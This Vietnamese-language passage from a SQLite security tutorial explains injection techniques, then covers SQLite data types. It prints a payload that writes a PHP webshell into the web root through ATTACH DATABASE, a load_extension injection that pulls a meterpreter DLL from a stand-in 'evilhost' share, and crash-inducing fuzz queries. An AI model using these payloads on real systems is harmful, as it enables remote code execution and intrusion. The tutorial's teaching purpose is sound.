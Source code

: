 ### 2.1. ATTACH DATABASE → ghi file webshell
```php
?id=bob'; ATTACH DATABASE '/var/www/lol.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn(dataz) VALUES ('<? system($_GET['cmd']); ?>');--
```
- `ATTACH DATABASE '/var/www/lol.php' AS lol;` gắn một file làm “database” mới (alias `lol`). Nếu trỏ tới thư mục web (`/var/www/...`), có thể ghi nội dung vào file đó thông qua thao tác SQL kế tiếp.
- `CREATE TABLE lol.pwn (dataz text);` tạo bảng `pwn` bên trong database `lol` (tức là “ghi cấu trúc” vào file `.php`).
- `INSERT ... VALUES ('<? system($_GET['cmd']); ?>');` chèn nội dung PHP vào file; nếu web server thực thi, có thể dẫn tới **RCE**.

> Thực tế thường bị **chặn** trong môi trường trình duyệt/ứng dụng hiện đại bởi cơ chế Authorizer (xem thêm phần dưới).

<br>

### 2.2. `SELECT load_extension()` → nạp mã native
```sql
?name=123 UNION SELECT 1, load_extension('\evilhost\evilshare\meterpreter.dll','DllMain');--
```
- `load_extension(path, entry)` nạp **thư viện chia sẻ** (`.dll` / `.so`) và gọi hàm entry (ví dụ `DllMain`). Nếu thành công, mã native sẽ **chạy trong tiến trình** → có thể mở shell/nâng quyền.

> Hầu hết build/embedding **tắt** tính năng này mặc định hoặc bị Authorizer chặn.

<br>

### 2.3. Fuzzing SQLite với các biểu thức/kiểu bất thường
```sql
create table t0(o CHar(0) CHECK(0&0>0));
insert into t0;
select randomblob(0)-trim(0);
```
- Cột `CHAR(0)`, constraint `CHECK(0&0>0)`, phép toán trên kiểu/giá trị **phi chuẩn** buộc engine đi vào các **code path ít được test**, dẫn tới **crash** hoặc thậm chí **memory corruption**.

---

## 3. Data Types trong SQLite
SQLite dùng 5 kiểu cơ bản:
- **Integer** 64-bit có dấu  
- **Float** 64-bit IEEE  
- **String**
- **BLOB**
- **NULL**

Cơ chế **dynamic typing/type affinity**: cột có “kiểu tên” nhưng giá trị vẫn có thể lưu dạng khác; bản chất mọi thứ thuộc 1 trong 5 kiểu trên.

> **Lưu ý**: BLOB/String có thể chứa dữ liệu nhị phân/payload. **Validate** và **giới hạn kích thước** khi nhận input không tin cậy.

---

